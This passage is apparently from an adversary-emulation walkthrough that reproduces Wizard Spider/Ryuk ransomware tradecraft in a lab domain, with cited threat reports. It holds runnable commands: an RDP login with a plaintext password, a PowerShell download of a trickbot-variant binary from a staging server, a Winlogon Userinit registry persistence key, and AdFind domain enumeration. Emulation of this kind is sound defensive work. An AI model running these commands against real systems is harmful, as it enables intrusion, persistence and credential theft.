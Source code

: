 :warning: Go back to your Toto RDP session and sign out: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Rename your RDP terminal to "RDP to wizard"

RDP to wizard / 10.0.0.4.

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

xfreerdp +clipboard /u:oz\\vfleming /p:"q27VYN8xflPcYumbLMit" /v:10.0.0.4 /drive:X,wizard_spider/Resources/Ryuk/bin
```

:warning: Open an **administrator powershell**.

Download a trickbot variant (same binary with a zero appended to the very end)

```pwsh
# Wizard Spider has established persistence using Userinit by adding the Registry key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon.[3]

Invoke-WebRequest -Uri http://192.168.0.4:8080/getFile/uxtheme.exe -OutFile $env:AppData\uxtheme.exe
```

```pwsh
Set-ItemProperty "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, $env:AppData\uxtheme.exe" -Force
```

```pwsh
# Wizard Spider has also used AdFind and nltest/dclist to enumerate domain computers, including the domain controller.[4][5][3][7][6]

adfind -f "(objectcategory=group)"
```

### :microscope: Cited Intelligence

* https://us-cert.cisa.gov/ncas/alerts/aa20-302a
* https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html
* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/
* https://thedfirreport.com/2020/11/05/ryuk-speed-run-2-hours-to-ransom/
* https://www.fireeye.com/blog/threat-research/2019/01/a-nasty-trick-from-credential-theft-malware-to-business-disruption.html
* https://thedfirreport.com/2020/10/08/ryuks-return/
* https://redcanary.com/blog/how-one-hospital-thwarted-a-ryuk-ransomware-outbreak/

## Step 8 - Dump Active Directory Database (ntds.dit)

:microphone: `Voice Track:`

During step 8, Wizard Spider creates a volume shadow copy in order to collect the active directory database (ntds.dit).
